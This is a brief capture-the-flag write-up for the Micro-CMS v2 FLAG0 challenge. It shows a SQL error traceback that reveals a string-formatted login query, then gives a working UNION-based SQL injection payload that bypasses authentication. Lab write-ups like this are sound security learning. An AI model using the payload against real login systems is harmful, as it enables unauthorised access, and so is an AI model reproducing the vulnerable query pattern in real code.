




# Micro-CMS v2 - FLAG0

## 0x00 Index


## 0x01 Log In

Try create a new page. Redirect to log in page.

Try with weak password. Not working.



## 0x02 Try Add '

Get SQL error page

```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

## 0x03 Bypass Login

USERNAME = 

```sql
' UNION SELECT '123' AS password#
```

and PASSWORD = 123

```sql
SELECT password FROM admins WHERE username='admin' UNION SELECT '123' AS password#
```



## 0x04 Private Page (FLAG)



